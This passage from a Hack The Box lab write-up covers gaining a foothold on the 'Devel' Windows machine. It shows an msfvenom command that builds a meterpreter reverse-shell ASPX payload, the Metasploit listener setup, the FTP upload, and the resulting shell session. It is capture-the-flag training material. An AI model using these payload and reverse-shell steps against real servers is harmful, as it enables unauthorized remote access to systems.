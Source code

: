 This means we could try to execute code, as this is a windows webserver we need a shell compatible with windows.

## Initial foothold with Meterpreter

Let's generate one with msfvenom  
```
┌──(root💀kali)-[~/Documents/hackthebox/devel]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=5555 -f aspx > meterpreter.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of aspx file: 2874 bytes
```

Now we need to launch metasploit to setup our listener  
- `msf6 > use exploit/multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost tun0`
- `set lport 5555`
- `exploit -j`

We can get back to the ftp and put our exploit in there:
```
ftp> put meterpreter.aspx
local: meterpreter.aspx remote: meterpreter.aspx
229 Entering Extended Passive Mode (|||49221|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************************************|  2911       61.69 MiB/s    --:-- ETA
226 Transfer complete.
2911 bytes sent in 00:00 (83.02 KiB/s)
```
And now we can go to our webpage and access our exploit `http://10.10.10.5/meterpreter.aspx`  
And we can see on out metasploit that we have a shell!  
```
msf6 exploit(multi/handler) > [*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.8:5555 -> 10.10.10.5:49222 ) at 2022-03-26 11:49:12 -0400
sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.8:5555 -> 10.10.10.5:49222  (10.10.10.5)
```

Let's interact with our session:  
```
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > 
```
- Let's see who we are:  
```
meterpreter > getuid
Server username: IIS APPPOOL\Web
```
- Let's get info on our target machine:
```
meterpreter > sysinfo
```